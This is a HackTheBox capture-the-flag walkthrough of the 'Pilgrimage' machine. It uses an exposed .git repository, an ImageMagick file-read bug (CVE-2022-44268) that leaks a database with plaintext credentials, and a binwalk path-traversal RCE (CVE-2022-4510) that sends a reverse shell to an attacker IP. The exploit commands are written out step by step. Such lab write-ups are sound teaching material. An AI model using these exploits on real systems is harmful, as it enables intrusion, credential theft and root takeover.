



# Pilgrimage — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Directory enumeration reveals an exposed `.git` directory → `git-dumper` extracts the source code, revealing the use of a vulnerable version of `ImageMagick` → Exploiting an ImageMagick LFI vulnerability (CVE-2022-44268) allows reading the backend SQLite database → Extracting the `emily` credentials from the database yields SSH access → Process monitoring (`pspy`) spots a root cronjob running `binwalk` on uploaded images → Exploiting a known RCE in `binwalk` (CVE-2022-4510) drops a root shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.11.219
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.4p1 Debian |
| 80 | HTTP | nginx 1.18.0 |

Port 80 serves a web page that redirects to `http://pilgrimage.htb/`. 
We add `pilgrimage.htb` to our `/etc/hosts` file.

The web application provides a simple service: uploading an image and shrinking its file size.

We enumerate hidden directories on the web server using Gobuster:

```bash
gobuster dir -u http://pilgrimage.htb/ -w /usr/share/wordlists/dirb/common.txt
```

The scan successfully identifies an exposed `.git/` directory at the root of the web server.

---

## Exploitation — ImageMagick LFI (CVE-2022-44268)

Because the `.git` directory is exposed, we can download the entire application source code and repository history using `git-dumper`:

```bash
git-dumper http://pilgrimage.htb/ git_dump/
cd git_dump/
```

Reviewing the downloaded source code (specifically `index.php`), we observe that the application relies on an external binary called `magick` to resize the uploaded images. 



Conveniently, the compiled `magick` binary itself was committed to the Git repository. We execute it locally to check its version:



```bash
./magick -version
```

The output reveals it is ImageMagick version `7.1.0-49`. 

Researching this specific version uncovers a critical Local File Inclusion (LFI) vulnerability (CVE-2022-44268). If an attacker uploads a specially crafted PNG file containing a malicious text chunk (specifying a local file path), ImageMagick will read that file and embed its hex-encoded contents into the resulting output image!

We find a public PoC to generate the malicious payload:
`https://github.com/Sybil-Scan/imagemagick-lfi-poc`

Instead of blindly dumping `/etc/passwd`, we look at the source code again and notice a SQLite database path hardcoded in `index.php` (e.g., `/var/db/pilgrimage`). 

We generate our malicious PNG to read this database:

```bash
python3 generate.py -f "/var/db/pilgrimage" -o exploit.png
```

We upload `exploit.png` to the web application and download the "shrunk" image it provides in return.

To extract the embedded file contents from the returned image, we use `identify` (an ImageMagick tool) and parse the raw hex output:

```bash
identify -verbose shrunk_image.png | grep -Pv "^( |Image)" | xxd -r -p > pilgrimage.sqlite
```

We open the extracted database locally using `sqlite3`:

```bash
sqlite3 pilgrimage.sqlite
sqlite> .tables
sqlite> select * from users;
```

The database reveals a plaintext credential pair: `emily : abigchonkyboi123`.
We use these credentials to connect to the machine via SSH (`ssh emily@10.10.11.219`).

We now have user access.

---

## Privilege Escalation — Binwalk RCE (CVE-2022-4510)

Once on the machine, we run `pspy64` to monitor background processes and cronjobs executing in real-time.

```bash
./pspy64 -pf -i 1000
```

We observe a root bash script executing repeatedly at `/usr/sbin/malwarescan.sh`. We read the contents of the script:

```bash
#!/bin/bash
blacklist=("Executable script" "Microsoft executable")
/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
# ... [snip] ...
```

The script monitors the `/var/www/pilgrimage.htb/shrunk/` directory. Whenever a new file is created there, it runs `/usr/local/bin/binwalk -e` on the file to scan for prohibited content signatures.

We check the `binwalk` version installed on the system (`binwalk -h` or checking standard paths) and find it is version `2.3.2`.

This version of `binwalk` is highly vulnerable to Remote Code Execution (CVE-2022-4510) due to a path traversal flaw during the extraction (`-e`) process. An attacker can craft a malicious file that, when extracted by `binwalk`, writes an executable script to a location of their choosing and executes it.

We use a public Exploit-DB script (51249.py) to generate the payload on our attacking machine:

```bash
# Touch a dummy file to embed
touch dummy.png
# Generate the exploit PNG
python3 51249.py dummy.png 10.10.14.27 4444
```

This creates a `binwalk_exploit.png` file. 
We start a Netcat listener on port 4444 on our attacking box.

We transfer `binwalk_exploit.png` to the target machine (into `/tmp`) and then simply copy it into the directory actively monitored by the root `malwarescan.sh` script:

```bash
cp /tmp/binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

The automated script instantly detects the new file, runs `binwalk -e` against it, triggers the path traversal, and executes our reverse shell code.

Our Netcat listener catches the incoming connection.

We are `root`. 🎉

---

## Key Takeaways

- **Exposed .git Directories:** A publicly accessible `.git` folder guarantees a catastrophic source code leak. Attackers can trivially recover the entire repository history, including hardcoded credentials, sensitive configuration data, and unoptimized/vulnerable dependencies (like the `magick` binary).
- **Automated Processing Scripts:** Scripts that blindly execute third-party binaries (like `binwalk` or `exiftool`) against user-uploaded files are extremely dangerous. Vulnerabilities in those binaries instantly translate to local privilege escalation or complete system compromise.
- **ImageMagick LFI:** CVE-2022-44268 is a stealthy vulnerability. The server does not crash or throw an error; it quietly embeds the requested local file deep within the hex metadata of the returned image.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*

